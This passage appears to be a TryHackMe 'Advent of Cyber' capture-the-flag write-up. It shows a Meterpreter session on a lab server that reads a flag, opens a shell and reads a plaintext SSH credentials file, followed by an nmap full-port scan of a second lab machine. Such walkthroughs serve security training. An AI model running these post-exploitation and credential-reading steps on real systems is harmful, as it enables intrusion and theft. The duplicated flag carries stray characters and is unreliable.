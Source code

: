 ```
meterpreter > cat /usr/local/tomcat/webapps/ROOT/ThisIsFlag1.txt
THM{V0N318*****3ad96bb13ec963a5ca4cb99302b37e12}
```

`THM{V0N318*****3ad96bb13ec963a5ca4cb99302b37e1212**123:))}`

2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

```
meterpreter > shell
Process 51 created.
Channel 1 created.
ls /home/
santa
ls /home/santa
ssh-creds.txt
cat /home/santa/ssh-creds.txt
santa:rudolphrednosedreindeer
```

`rudolphrednosedreindeer`

3. Who is on line 148 of the naughty list?

```
[santa@ip-10-10-73-143 ~]$ sed '148!d' naughty_list.txt
Melisa Vanhoose
```

`Melisa Vanhoose`

4. Who is on line 52 of the nice list?

```
[santa@ip-10-10-73-143 ~]$ sed '52!d' nice_list.txt
Lindsey Gaffney
```

`Lindsey Gaffney`

## [Day 11] Elf Applications

McSkidy has been happy with the progress they've been making, but there's still so much to do. One of their main servers has some integral services running, but they can't access these services. Did the Christmas Monster lock them out?

Deploy the machine and starting scanning the IP. **The machine may take a few minutes to boot up**.

Check out the supporting material [here](https://docs.google.com/document/d/1qCMuPwBR0gWIDfk_PXt0Jr220JIJAQ-N4foDZDVX59U/edit#).

```
bibo318@parrot:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.89.226
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 11:20 CEST
Nmap scan report for 10.10.89.226
Host is up (0.030s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 500 OOPS: invalid pasv_address
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.106.222
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
```